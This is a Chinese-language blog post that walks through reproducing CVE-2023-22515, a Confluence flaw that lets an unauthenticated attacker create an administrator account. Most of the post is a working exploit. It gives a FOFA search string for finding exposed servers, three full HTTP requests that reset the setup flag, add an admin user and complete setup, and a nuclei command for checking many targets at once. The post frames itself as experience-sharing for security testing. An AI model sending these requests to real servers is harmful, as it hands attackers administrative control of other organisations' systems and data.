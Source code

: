 # 原创
：  漏洞复现--Confluence未授权管理用户添加 (CVE-2023-22515)

# 漏洞复现--Confluence未授权管理用户添加 (CVE-2023-22515)

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负**

### 一：漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。<br/> 2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用该漏洞攻击者可以重新执行Confluence安装流程并增加管理员账户。

### 二：漏洞影响版本

version&gt;8.0.0

### 三：网络空间测绘查询

fofa:<br/> `app="ATLASSIAN-Confluence"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/4eef4a998c66c2da3fa1caf610a8eec6.jpeg"/>

### 四：漏洞复现

POC:<br/> 先覆盖目标Confluence服务器中的bootstrapStatusProvider.applicationConfig.setupComplete属性：

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: IP:PORT
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0

```

然后新建管理员账户：

```
POST /setup/setupadministrator.action HTTP/1.1
Host: IP:PORT
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=tbssec&amp;fullName=tbssec&amp;email=admin%40tbssec.com&amp;password=tbssec&amp;confirm=tbssec&amp;setup-next-button=Next

```

接着完成安装请求：

```
POST /setup/finishsetup.action HTTP/1.1
Host: IP:PORT
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/31638a0d567b130b981897a072345e30.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/2d2cb738b3dc4322fe66f3b70acda872.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a0d89b5cd4e04eb6b8bde10fbf6b75af.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/40e3b29b8faedbf3d4a9ca0919b6410d.jpeg"/><br/> 此时用户已经创建完毕，登录<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b11890d0bc2047b4086e166a0fdc13fe.jpeg"/>

### 五：批量验证

nuclei已上线该yaml (CVE-2023-22515)<br/> `.\nuclei.exe -t /http/cves/2023/CVE-2023-22515.yaml -l .\Confluence.txt -stats`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/91c17da1c2cddb2942bbb475fb115dd4.jpeg"/>
